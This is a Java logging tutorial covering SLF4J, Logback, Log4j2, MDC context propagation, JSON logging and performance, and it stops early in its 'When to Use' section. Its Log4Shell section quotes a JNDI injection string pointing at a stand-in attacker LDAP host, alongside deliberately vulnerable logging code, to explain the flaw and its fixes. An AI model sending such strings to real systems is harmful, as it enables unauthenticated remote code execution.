


# Java Logging — SLF4J, Logback & Log4j2

## 1. Concept Overview

Java logging is a two-layer system: a **facade** that application and library code calls, and an **implementation** (backend) that actually formats and writes the bytes. **SLF4J** (Simple Logging Facade for Java) is the near-universal facade; **Logback** and **Log4j2** are the two dominant implementations that bind to it, alongside the JDK's built-in **java.util.logging (JUL)**. The split exists because logging is a cross-cutting concern every library must touch, yet a library must never force a specific backend — with its own version constraints and vulnerabilities — onto every application that depends on it.

The lineage explains today's defaults. Log4j 1.x (1999, Ceki Gulcu) was the original popular Java logger; the rigidity of its API, plus the fragility of Jakarta Commons Logging's classloader-based auto-detection, motivated Gulcu to create SLF4J (~2005) as a thin, backend-agnostic facade, and later **Logback** as SLF4J's "native" high-performance implementation. In parallel, the Apache Logging Services project rewrote Log4j from scratch as **Log4j2** (2014), adding a plugin architecture and fully asynchronous **Async Loggers** built on the LMAX Disruptor. Log4j 1.x reached end-of-life in 2015 and must not appear in new code. Every production Java service built since is, in practice, choosing between "SLF4J + Logback" and "SLF4J + Log4j2."

Beyond routing bytes to a file, modern logging must also support **structured (JSON) output** for machine parsing by log aggregators (ELK, Loki), **correlation context** (MDC) so one request's log lines can be reassembled across a distributed system, and enough **performance discipline** — parameterized messages, async appenders — that logging never becomes the bottleneck of the code path it exists to observe.

---

## 2. Intuition

> **One-line analogy**: A logging facade is a wall power outlet — your appliance (application code) plugs into the same universal socket (the SLF4J API) no matter which power plant (Logback, Log4j2, JUL) is actually generating electricity behind the wall.

**Mental model**: Every `log.info(...)` call really answers two separate questions asked by two separate parties. The facade (SLF4J) answers "what is the call site's API?" — one stable interface every library codes against. The implementation (Logback/Log4j2) answers "what actually happens to this message?" — which appenders receive it, how it's formatted, whether it's written synchronously or handed to a queue, and where it ultimately lands (console, file, network). Swapping Logback for Log4j2 should require changing one dependency and one config file — zero application code changes — because no application code ever imported a Logback or Log4j2 class directly.

**Why it matters**: A library that hardcodes a concrete logging implementation forces that implementation onto every application that uses it — multiplied across every library in a dependency tree, this becomes untenable. The facade pattern applied to logging is what lets a Spring Boot application with hundreds of transitive dependencies run all of them through one coherent, centrally-configured pipeline.

**Key insight**: The two most interview-tested traps in Java logging are not about the facade/implementation split in the abstract — they are about where that abstraction **leaks**. First, when two implementations land on the classpath simultaneously, SLF4J's binding resolution becomes non-deterministic (the "multiple bindings" warning) and one backend's configuration silently becomes dead weight. Second, MDC — the mechanism that threads a correlation ID through log lines — is implemented with `ThreadLocal` storage, so the instant work crosses a thread-pool, `CompletableFuture`, or reactive boundary, that context does not automatically follow it. Both bugs compile cleanly, pass code review, and only surface as confusing behavior in production.

---

## 3. Core Principles

- **Facade/implementation separation** — code against `org.slf4j.Logger`; never import `ch.qos.logback.*` or `org.apache.logging.log4j.core.*` from application logic.
- **Parameterized logging over concatenation** — `log.debug("user {} did {}", id, action)` defers formatting until after the level check; string concatenation does not.
- **Fail-safe, non-blocking logging** — a logging call must never crash the request path or become its bottleneck; async appenders exist for exactly this reason.
- **Structured, machine-parseable output** — JSON logs let an aggregator index fields natively instead of relying on fragile regex/grok parsing.
- **Contextual correlation** — MDC (or its reactive/virtual-thread equivalents) ties every log line back to the request, tenant, or batch that produced it.
- **Logger hierarchy + additivity** — centralize verbosity control (per-package levels) without touching code, but understand additivity or you get duplicate lines.
- **Level discipline** — each level (TRACE..ERROR) is a contract about audience and urgency, not a knob to "turn up when confused."
- **Treat log statements as an API surface with security review** — never let secrets, tokens, or PII reach a log line; a war story below shows why this discipline is non-negotiable.
- **Async by default in latency-sensitive paths; sync when durability trumps latency** — a deliberate choice, not a default nobody examined.
- **Defense in depth against attacker-controlled content in messages** — the Log4Shell lesson: never let untrusted input reach a substitution-capable formatter.

---

## 4. Types / Architectures / Strategies

### 4.1 Facade vs. Implementation

| Layer | Artifact | Role |
|-------|----------|------|
| Facade | `slf4j-api` | Stable interface (`Logger`, `LoggerFactory`, `MDC`) every library and application codes against |
| Implementation | `logback-classic` + `logback-core` | SLF4J-native backend; Spring Boot's default |
| Implementation | `log4j-core` + `log4j-slf4j2-impl` | Apache's backend; adds Async Loggers, a plugin system, garbage-free mode |
| Implementation | `java.util.logging` (JUL) | Built into the JDK since 1.4 (2002); weaker ecosystem, rarely used directly in production |
| Bridge | `jul-to-slf4j` | Routes calls made through JUL (JDK internals, some legacy libraries) into SLF4J; requires uninstalling JUL's default handlers via `SLF4JBridgeHandler.install()` |
| Legacy (do not use) | `log4j` 1.x | EOL since 2015; unpatched CVEs; migrate any remaining usage immediately |

A given JVM has exactly one facade and, ideally, exactly one implementation bound to it — see the "multiple bindings" diagram in §5 for what happens when that invariant breaks.

### 4.2 Logger Hierarchy & Additivity

Loggers are named hierarchically by dot-separated package/class name (`com.payflow.payments.OrderService` is a child of `com.payflow.payments`, which is a child of `com.payflow`, which is a child of the unnamed `root`). Each logger can have its own level and its own appenders. **Additivity** (default `true`) means a logger's events also propagate to every ancestor's appenders — turn it off (`additivity="false"`) on any logger that has its own dedicated appender to avoid duplicate output.

### 4.3 Appender Types

| Appender | Behavior |
|----------|----------|
| `ConsoleAppender` | Writes to stdout/stderr — the only sink that matters inside a container, where the platform's log driver takes over |
| `RollingFileAppender` | Writes to a file, rotated by a time- and/or size-based policy |
| `AsyncAppender` (Logback) / Async Loggers (Log4j2) | Hands the event to a queue or ring buffer; a background thread does the real I/O |
| Socket / Kafka appender | Ships events directly over the network to a collector, bypassing local disk entirely |

### 4.4 Log4j2 Architecture — Loggers, Appenders, Layouts, Filters, Plugins

Log4j2 generalizes the same Logger -> Appender pipeline with a **plugin system** (`@Plugin` annotation) that lets you write custom Appenders, Layouts, and Filters without touching the core. Two distinct "async" mechanisms exist and are frequently confused:

- **`AsyncAppender`** — like Logback's, wraps a *synchronous* appender with a `BlockingQueue`; only the I/O is deferred.
- **Async Loggers** — the entire logging call (including message formatting) runs through the **LMAX Disruptor**, a lock-free ring buffer, bypassing `synchronized` blocks entirely. This is the headline Log4j2 feature and the source of its throughput numbers (§6).

### 4.5 Structured (JSON) Logging Strategies

| Backend | Mechanism |
|---------|-----------|
| Logback | `net.logstash.logback.encoder.LogstashEncoder` (or `LoggingEventCompositeJsonEncoder` for custom field sets) |
| Log4j2 | Built-in `JsonTemplateLayout`, with ready-made Elastic Common Schema (ECS) and GELF templates |

Field names are typically standardized against a shared schema (ECS is the most common) so logs from different services can be joined and filtered consistently in the aggregator.

### 4.6 MDC & Context Propagation Strategies

| Strategy | Mechanism |
|----------|-----------|
| Plain MDC | `ThreadLocal<Map<String,String>>`; correct only while the whole request stays on one thread |
| Manual capture/restore | Snapshot on the submitting thread, restore inside the pooled task, clear in `finally` |
| Task decorator | A reusable `Runnable`/`Callable` wrapper (or Spring's `TaskDecorator`) that automates the capture/restore |
| Reactor `Context` | Immutable context riding the reactive subscription instead of any thread — see [Reactive Programming](../reactive_programming/README.md) |
| `ScopedValue` (JEP 446) | Structured, immutable, scoped to a call tree; composes with `StructuredTaskScope` — see [Structured Concurrency & Loom](../structured_concurrency_and_loom/README.md) |

---

## 5. Architecture Diagrams

### SLF4J Facade -> Binding -> Appenders -> Sinks



SLF4J is a single, fixed API — only the binding-resolution step (§6) determines which concrete engine actually runs, and that engine's appenders determine the final sink. Nodes are intentionally left uncolored: the reader auto-tints an uncolored flowchart, but mixing in even one authored color renders the whole diagram flat gray.

### Facade vs. Implementation — Classpath Binding

```
LoggerFactory.getLogger(MyClass.class) — one call site; the CLASSPATH decides the binding

Healthy classpath — exactly one provider found:
  slf4j-api.jar                   (facade — interfaces only, no logging engine)
  logback-classic.jar             (the ONLY provider on the classpath)
    -> ServiceLoader finds 1 match -> binds to Logback -> logback.xml drives everything

Conflicting classpath — two providers found:
  slf4j-api.jar                   (facade)
  logback-classic.jar             (provider #1)
  log4j-slf4j2-impl.jar           (provider #2, e.g. pulled in transitively)
    -> ServiceLoader finds 2 matches -> prints "multiple bindings", lists both jars
    -> binds to ONE of them (order not guaranteed across JVMs/classloaders)
    -> the OTHER jar's config file (logback.xml or log4j2.xml) is now dead weight -
       editing it changes nothing, with no error telling you why
```

The facade never changes; only the number of providers on the classpath decides whether logging behaves predictably or silently ignores half your configuration (§10, §12).

### Request Lifecycle — MDC, Log Call, Async Appender, File



The request thread only ever touches the queue/ring buffer — never the disk. The append to `app.log` happens later, on a separate worker thread, which is exactly why async logging removes I/O latency from the request path (§6, §8).

### MDC Is Thread-Local — Lost Across a Pool Boundary

```
MDC lives on the Thread object (ThreadLocal) - not on the request or the task

Request thread R1 (handles the HTTP call)
  MDC map: { requestId: "abc-123" }
  executor.submit(runnable)      <- hands off code only; the MDC map does NOT travel

Pool worker thread W7 (long-lived, reused across many unrelated tasks)
  BEFORE the fix, W7's own MDC map when the task actually runs:
    fresh thread   -> MDC map: {}                       context LOST (blank id)
    reused thread  -> MDC map: { requestId: "xyz-999" }  context LEAKED (stale id)
  log.info("reconciling txn {}", id)   logs with a missing or WRONG requestId

  AFTER the fix - snapshot on R1, restore on W7, always clear in finally:
    Map<String,String> ctx = MDC.getCopyOfContextMap();  // snapshot on R1
    pool.submit(() -> {
        MDC.setContextMap(ctx);                          // restore on W7
        try     { reconcile(txn); }                       // now logs the right id
        finally { MDC.clear(); }                          // never leaks to next task
    });
```

Thread pools recycle `Thread` objects across unrelated tasks, so whatever a worker's `ThreadLocal` held before is still there when the next task starts — this single fact is the root cause of nearly every "wrong correlation ID in Kibana" incident (§10, §12). See [Concurrency](../concurrency/README.md) for the underlying thread-pool mechanics.

---

## 6. How It Works — Detailed Mechanics

### SLF4J Binding Resolution

Modern SLF4J (2.x) uses the standard Java `ServiceLoader` mechanism: any jar that ships a `META-INF/services/org.slf4j.spi.SLF4JServiceProvider` file is a candidate provider. Older SLF4J 1.7.x instead looked for a compiled `org/slf4j/impl/StaticLoggerBinder` class on the classpath — a jar-naming convention rather than a service entry, which is why older tutorials talk about "the binding jar" as if it were a magic filename. Both mechanisms fail identically when more than one candidate exists: SLF4J logs a startup warning naming every provider found, then picks one — in the `ServiceLoader` model, by iteration order that is not guaranteed stable across JVMs or classloaders.

```
SLF4J: Class path contains multiple SLF4J providers.
SLF4J: Found provider [ch.qos.logback.classic.spi.LogbackServiceProvider]
SLF4J: Found provider [org.apache.logging.slf4j.SLF4JProvider]
SLF4J: See https://www.slf4j.org/codes.html#multiple_bindings for an explanation.
SLF4J: Actual provider is of type [ch.qos.logback.classic.spi.LogbackServiceProvider]
```

The fix is always dependency hygiene, not configuration: exclude the unwanted backend's starter/jar. In Maven/Gradle terms, adding a Log4j2 starter to a Spring Boot project without first excluding `spring-boot-starter-logging` (which pulls in Logback) produces exactly this warning.

### Parameterized Logging — Broken, Fixed, and When a Guard Still Helps

```java
// BROKEN - eager string concatenation runs on every call, regardless of level
log.debug("Processing order " + orderId + " for user " + userId
        + ": " + order.toVerboseString());
// Costs paid on EVERY invocation even when DEBUG is disabled:
//   1. String concatenation (StringBuilder allocation + appends)
//   2. order.toVerboseString() always executes, whether or not anything is logged

// FIXED - parameterized logging: SLF4J only formats the message if DEBUG is enabled
log.debug("user {} did {}", id, action);
// The {} placeholders are substituted AFTER Logback/Log4j2 has already checked
// whether this logger is enabled for DEBUG. Cheap, already-computed values like
// id/action cost nothing extra when the level is disabled - no isDebugEnabled()
// guard needed for this common case.

// STILL BROKEN - Java evaluates method ARGUMENTS before calling log.debug(),
// so this line always executes toVerboseString(), no matter the log level:
log.debug("order detail: {}", order.toVerboseString());

// FIX 1 - the classic guard, needed because the ARGUMENT itself is expensive
if (log.isDebugEnabled()) {
    log.debug("order detail: {}", order.toVerboseString());
}

// FIX 2 - SLF4J 2.x fluent API defers the supplier until the level check passes
log.atDebug().addArgument(order::toVerboseString).log("order detail: {}");

// FIX 3 - Log4j2 native lambda support (using the Log4j2 API directly)
logger.debug("order detail: {}", (Supplier<?>) order::toVerboseString);
```

The rule of thumb: parameterized `{}` defers *formatting*, not *argument evaluation*. A guard (or a lazy `Supplier`) is only necessary when producing the argument itself does real work.

### Logback Internals — Hierarchy, Additivity, Rolling Policies, AsyncAppender

```xml
<!-- logback.xml -->
<configuration>
    <appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
        <encoder class="ch.qos.logback.classic.encoder.PatternLayoutEncoder">
            <pattern>%d{ISO8601} [%thread] %-5level %logger{36} [%X{requestId}] - %msg%n</pattern>
        </encoder>
    </appender>

    <appender name="FILE" class="ch.qos.logback.core.rolling.RollingFileAppender">
        <file>logs/app.log</file>
        <rollingPolicy class="ch.qos.logback.core.rolling.SizeAndTimeBasedRollingPolicy">
            <fileNamePattern>logs/app-%d{yyyy-MM-dd}.%i.log.gz</fileNamePattern>
            <maxFileSize>100MB</maxFileSize>
            <maxHistory>30</maxHistory>
            <totalSizeCap>10GB</totalSizeCap>
        </rollingPolicy>
        <encoder class="net.logstash.logback.encoder.LogstashEncoder"/> <!-- JSON -->
    </appender>

    <appender name="ASYNC_FILE" class="ch.qos.logback.classic.AsyncAppender">
        <appender-ref ref="FILE"/>
        <queueSize>512</queueSize>
        <discardingThreshold>20</discardingThreshold> <!-- drop below WARN at 80% full -->
        <neverBlock>false</neverBlock>                <!-- block caller, don't lose events -->
        <includeCallerData>false</includeCallerData>  <!-- caller data costs 10-20x; off in prod -->
    </appender>

    <logger name="com.payflow.payments" level="DEBUG" additivity="false">
        <appender-ref ref="ASYNC_FILE"/>
    </logger>

    <root level="INFO">
        <appender-ref ref="STDOUT"/>
        <appender-ref ref="ASYNC_FILE"/>
    </root>
</configuration>
```

`additivity="false"` on `com.payflow.payments` stops its events from also flowing up to `root`'s appenders — without it, every line under that package would be written twice (once by its own appender, once by root's). `discardingThreshold` and `neverBlock` are a deliberate latency-vs-durability dial, not a default to leave unexamined (§8, §10).

### Log4j2 Internals — Async Loggers via the LMAX Disruptor

```xml
<!-- log4j2.xml -->
<Configuration status="WARN">
    <Appenders>
        <Console name="Console">
            <PatternLayout pattern="%d{ISO8601} [%t] %-5level %logger{36} [%X{requestId}] - %msg%n"/>
        </Console>
        <RollingFile name="RollingFile" fileName="logs/app.log"
                     filePattern="logs/app-%d{yyyy-MM-dd}-%i.log.gz">
            <JsonTemplateLayout eventTemplateUri="classpath:EcsLayout.json"/>
            <Policies>
                <TimeBasedTriggeringPolicy/>
                <SizeBasedTriggeringPolicy size="100 MB"/>
            </Policies>
            <DefaultRolloverStrategy max="30">
                <Delete basePath="logs" maxDepth="1">
                    <IfAccumulatedFileSize exceeds="10 GB"/>
                </Delete>
            </DefaultRolloverStrategy>
        </RollingFile>
    </Appenders>
    <Loggers>
        <AsyncLogger name="com.payflow.payments" level="DEBUG" additivity="false">
            <AppenderRef ref="RollingFile"/>
        </AsyncLogger>
        <Root level="INFO">
            <AppenderRef ref="Console"/>
            <AppenderRef ref="RollingFile"/>
        </Root>
    </Loggers>
</Configuration>
```

Unlike Logback's single `totalSizeCap` attribute, Log4j2 caps total disk usage via a `Delete` action with `IfAccumulatedFileSize` inside `DefaultRolloverStrategy` — an easy detail to miss and a real "silently fills the disk" trap (§10).

Two async modes exist. **Mixed** (shown above) — `<AsyncLogger>`/`<AsyncRoot>` tags on specific loggers, coexisting with plain `<Logger>`/`<Root>` — needs no extra configuration beyond the `com.lmax:disruptor` dependency. **All Async** routes every logger through the Disruptor by setting the system property `-Dlog4j2.contextSelector=org.apache.logging.log4j.core.async.AsyncLoggerContextSelector`, using only plain `<Logger>`/`<Root>` tags in the config. Instead of a `synchronized` block guarding shared appender state, the calling thread publishes its event into a pre-allocated ring-buffer slot with a single lock-free CAS, and one background thread consumes events in order and performs the actual formatting/I/O. Log4j2's own published benchmarks show Async Loggers sustaining throughput in the **millions of messages per second** on multi-core hardware — roughly an order of magnitude above a synchronous file appender doing a disk write per call, which directly blocks the calling (often request-handling) thread on every I/O operation.

Log4j2 also supports **lazy `Supplier` logging** natively, independent of the SLF4J facade's fluent API shown above:

```java
import org.apache.logging.log4j.util.Supplier;

// Only invoked if DEBUG is enabled - no isDebugEnabled() guard needed
logger.debug("expensive state: {}", (Supplier<?>) () -> computeExpensiveDiagnostics());
```

### MDC & Thread-Pool Propagation — the Full Fix

The `ExecutorService`/`CompletableFuture` case, matching the diagram in §5:

```java
ExecutorService pool = Executors.newFixedThreadPool(16);

// BROKEN
void reconcileBatch(String batchId, List<Transaction> txns) {
    MDC.put("reconciliationBatchId", batchId);
    for (Transaction t : txns) {
        pool.submit(() -> {
            // On the pool worker thread, MDC is EMPTY (fresh thread) or STALE
            // (whatever the PREVIOUS task on this thread left behind)
            log.info("Reconciling txn {}", t.id());  // wrong/missing batchId in Kibana
            reconcile(t);
        });
    }
    MDC.clear();
}

// FIXED - snapshot on the submitting thread, restore on the worker, always clear
void reconcileBatchFixed(String batchId, List<Transaction> txns) {
    MDC.put("reconciliationBatchId", batchId);
    Map<String, String> context = MDC.getCopyOfContextMap();      // snapshot
    for (Transaction t : txns) {
        pool.submit(() -> {
            Map<String, String> previous = MDC.getCopyOfContextMap();
            if (context != null) MDC.setContextMap(context); else MDC.clear();
            try {
                log.info("Reconciling txn {}", t.id());           // correct batchId
                reconcile(t);
            } finally {
                if (previous != null) MDC.setContextMap(previous); else MDC.clear();
            }
        });
    }
    MDC.clear();
}
```

The pattern is worth wrapping once, rather than repeating at every call site:

```java
static Runnable wrapWithMdc(Runnable task) {
    Map<String, String> context = MDC.getCopyOfContextMap();
    return () -> {
        Map<String, String> previous = MDC.getCopyOfContextMap();
        if (context != null) MDC.setContextMap(context); else MDC.clear();
        try {
            task.run();
        } finally {
            if (previous != null) MDC.setContextMap(previous); else MDC.clear();
        }
    };
}
// usage: pool.submit(wrapWithMdc(() -> reconcile(t)));
```

Spring formalizes exactly this as a `TaskDecorator` on `ThreadPoolTaskExecutor`:

```java
class MdcTaskDecorator implements TaskDecorator {
    @Override
    public Runnable decorate(Runnable runnable) {
        Map<String, String> context = MDC.getCopyOfContextMap();
        return () -> {
            try {
                if (context != null) MDC.setContextMap(context);
                runnable.run();
            } finally {
                MDC.clear();
            }
        };
    }
}
// threadPoolTaskExecutor.setTaskDecorator(new MdcTaskDecorator());
```

`CompletableFuture` has the identical problem, since `supplyAsync`/`runAsync` also run on a pool thread:

```java
Map<String, String> context = MDC.getCopyOfContextMap();
CompletableFuture.supplyAsync(() -> {
    if (context != null) MDC.setContextMap(context);
    try {
        return chargeCard(order);
    } finally {
        MDC.clear();
    }
}, executor);
```

**Reactive pipelines (Project Reactor / WebFlux)** sidestep the problem entirely rather than patching it: Reactor's `Context` is immutable and rides the reactive `Subscription`, not any particular thread, so it survives hops across `Schedulers` without any `ThreadLocal` copying. Bridge it back to MDC at logging time with `Hooks.enableAutomaticContextPropagation()` plus the `micrometer-context-propagation` library, which snapshots `Context` values into MDC immediately before each log call. See [Reactive Programming](../reactive_programming/README.md).

**Virtual threads and `ScopedValue`**: virtual threads do not fix the MDC problem by themselves — MDC is still `ThreadLocal`, and manual capture/restore does not scale cleanly to millions of short-lived virtual threads. The structured-concurrency-native answer is `ScopedValue` (JEP 446): an immutable value bound for the dynamic extent of a call tree (typically a `StructuredTaskScope`), automatically visible to every child task spawned within that scope with no manual copying, and automatically unbound when the scope exits. See [Structured Concurrency & Loom](../structured_concurrency_and_loom/README.md) for the full mechanics.

### Structured (JSON) Logging in Practice

```json
{
  "@timestamp": "2026-07-07T14:22:31.884Z",
  "level": "INFO",
  "logger": "com.payflow.payments.OrderService",
  "message": "Reconciling txn",
  "requestId": "abc-123",
  "reconciliationBatchId": "batch-2026-07-07",
  "orderId": 88231,
  "thread": "pool-2-thread-7"
}
```

Every field above is independently indexable by Elasticsearch/Loki the moment it is ingested — no regex parsing at query time. A plaintext line like `2026-07-07 INFO Reconciling txn 88231` would need a fragile grok pattern to recover `orderId=88231` as a queryable field. Field names are typically standardized against Elastic Common Schema (ECS) so logs from unrelated services can be joined on the same field names.

### Levels — TRACE Through ERROR, and What NOT to Log

| Level | Audience | Typical content |
|-------|----------|-----------------|
| TRACE | Developer, local debugging only | Per-iteration detail, rarely enabled anywhere |
| DEBUG | Developer diagnosing a specific issue | Enough detail to reproduce a bug; safe to enable per-package temporarily in production |
| INFO | Operators, normal visibility | Coarse lifecycle events — service started, batch of N completed |
| WARN | Operators, recoverable problem | A retry succeeded, a fallback was used, a deprecated path was hit |
| ERROR | On-call, needs investigation | A failed operation, typically paired with an alert |

A practical test: if enabling a level in production for a week would double the log storage bill without helping anyone answer a real question, it is the wrong level for that message.

**Never log**: passwords, API keys, tokens, session cookies, full payment card numbers/CVVs, or unredacted PII (SSNs, full names paired with contact info). Enforce this with masking utilities applied before a value ever reaches a log call, redaction filters at the appender layer as a second line of defense, and static-analysis or tests that fail the build if a known-sensitive field name is passed directly into a log statement.

### Log4Shell (CVE-2021-44228) — Mechanics

Log4j2 versions up to 2.14.1 (and, less severely, back to 2.0-beta9) interpolate `${...}` **lookup** syntax found anywhere inside a *logged message*, not just inside configuration files. The `JndiLookup` plugin resolves `${jndi:...}` at format time — including when the substring originates from attacker-controlled input that an application logs verbatim:

```java
// VULNERABLE on Log4j2 <= 2.14.1
String userAgent = request.getHeader("User-Agent");   // attacker controls this string
logger.error("Rejected request from: {}", userAgent);
// If userAgent = "${jndi:ldap://attacker.example.com/a}", Log4j2's message
// formatter resolves the JNDI lookup, contacts the attacker's LDAP server,
// fetches a remote Java class, and executes it - unauthenticated RCE.
```

**Blast radius**: CVSS 10.0, the maximum possible score. Log4j2 is one of the most deeply transitive dependencies in the Java ecosystem — bundled inside application servers, cloud consoles, enterprise frameworks, and consumer products (Minecraft Java Edition's chat-triggered exploitation was the most widely reported instance) — so a single flaw in a logging library became a simultaneous critical incident for an enormous and heterogeneous set of unrelated systems within hours of public disclosure (December 9, 2021).

**Mitigation and fixes** (fastest to most complete):

```
Immediate, no redeploy:  -Dlog4j2.formatMsgNoLookups=true          (only works on >= 2.10.0)
Immediate, no redeploy:  remove org/apache/logging/log4j/core/lookup/JndiLookup.class from the jar
Proper fix:              upgrade to Log4j2 >= 2.17.1
```

The "proper fix" version is 2.17.1, not 2.15.0, because the incident was actually a cluster of four CVEs discovered in quick succession: **CVE-2021-44228** (the original RCE), **CVE-2021-45046** (the 2.15.0 fix was incomplete for certain non-default configurations), **CVE-2021-45105** (a denial-of-service via uncontrolled recursion in lookups, fixed in 2.17.0), and **CVE-2021-44832** (a lower-severity RCE via JDBC Appender requiring attacker control of the logging configuration, fixed in 2.17.1). Log4j 1.x is **not** vulnerable to this specific flaw — it never had message-level lookup substitution — but it is not a safe fallback: it reached EOL in 2015 and has its own unpatched deserialization CVEs.

### Performance — Sync vs. Async, Caller Data, Throwable Cost

A **synchronous** appender performs its I/O (disk write, network send) inline, on the calling thread, before the log call returns — meaning a slow disk or a saturated network directly adds to request latency. An **async** appender/logger hands the event to a queue or ring buffer and returns immediately, moving the I/O cost onto a background thread; the trade is a bounded window of potential event loss if the process crashes before the queue drains.

`includeCallerData` (Logback) / equivalent caller-location capture (Log4j2) costs roughly **10-20x** a plain log call, because the only way to recover "which line called this" is to construct a stack-walking `Throwable` and inspect its frames — real, measurable overhead multiplied across every call site. Leave it `false` in production; enable it only while actively debugging.

Constructing any `Throwable` invokes `fillInStackTrace()`, which walks and captures every frame on the call stack — a cost that scales with stack depth and is paid whether or not the exception is ever logged or even thrown. This is the same reason "exceptions for control flow" is a classic performance anti-pattern in hot loops. For logging specifically, always pass the full `Throwable` to the dedicated overload (`log.error("charge failed", ex)`) rather than logging only `ex.getMessage()` — the message-only form is marginally cheaper but discards the stack trace, which is usually the only clue to *where* the failure occurred.

---

## 7. Real-World Examples

- **Log4Shell / Minecraft Java Edition** — the most widely reported real-world exploitation vector: a chat message containing a JNDI lookup string triggered remote code execution on unpatched Minecraft servers, illustrating how a logging library flaw becomes a client-facing exploit chain.
- **Spring Boot's default backend** — `spring-boot-starter-logging` pulls in Logback by default; switching to Log4j2 is an officially documented one-line change (exclude the default starter, add `spring-boot-starter-log4j2`), demonstrating the facade contract working as designed.
- **Elastic (ELK) and Grafana Labs (Loki)** — the two dominant log-aggregation ecosystems in the industry; ELK favors rich full-text + structured search, Loki favors cheap label-based indexing that only parses log bodies at query time.
- **Google Cloud Logging's structured JSON convention** — reserved fields like `severity` and `logging.googleapis.com/trace` let Cloud Logging automatically correlate a log line with its originating distributed trace, the same correlation problem MDC solves at the application level.
- **OpenTelemetry's log data model** — standardizes `trace_id`/`span_id` fields on every log record specifically so logs, traces, and metrics can be joined across service boundaries regardless of which backend produced them.

---

## 8. Tradeoffs

| Combination | Strengths | Weaknesses |
|-------------|-----------|------------|
| SLF4J + Logback | Native SLF4J implementation (zero adapter hop), mature rolling/async appenders, Spring Boot default | Its async model can bottleneck before Log4j2's Async Loggers do at extreme throughput |
| SLF4J + Log4j2 | Async Loggers (Disruptor) for the highest throughput, rich plugin system, garbage-free mode available | Extra adapter hop through `log4j-slf4j2-impl`; larger configuration surface; the origin of Log4Shell |
| java.util.logging (JUL) directly | Zero extra dependency — bundled in the JDK | Verbose API, weaker appender/encoder ecosystem; most libraries route away from it via a bridge |
| Log4j 1.x | None (historical only) | EOL since 2015, unpatched CVEs; must not be used in new code |

| Aspect | Synchronous appender | Async appender / Async Logger |
|--------|----------------------|-------------------------------|
| Request-thread latency | Full I/O cost paid inline | Near-zero — event handed to a queue/ring buffer |
| Durability | Every line durable before the call returns | Small window of loss on crash or full queue |
| Throughput ceiling | Bound by I/O device speed | Bound by CPU + queue capacity — far higher |
| Failure mode | Caller blocks/propagates on I/O failure | Silent drop if `neverBlock`/`discardingThreshold` fire, unless monitored |

| Context mechanism | How context travels | Thread-pool / async safe? |
|--------------------|---------------------|----------------------------|
| MDC (`ThreadLocal`) | Attached to the `Thread` object | No — needs manual capture/restore or a `TaskDecorator` |
| Manual parameter passing | Explicit method arguments | Yes, but invasive and verbose |
| Reactor `Context` | Immutable, rides the reactive subscription | Yes, natively across operators |
| `ScopedValue` (JEP 446) | Structured, immutable, scoped to a call tree | Yes — composes with `StructuredTaskScope` |

| Aspect | Plaintext (PatternLayout) | JSON (Logstash/ECS encoder) |
|--------|---------------------------|------------------------------|
| Human readability, local dev | High | Low without a viewer |
| Machine parseability at scale | Fragile regex/grok parsing | Native field extraction |
| Aggregator query performance | Poor for structured queries | Fast, index-backed field queries |

---

## 9. When to Use / When NOT to Use

**Use the SLF4J facade** always, in every library and application — never bind application code directly to `ch.qos.logback.*` or `org.apache.logging.log4j.core.*`.

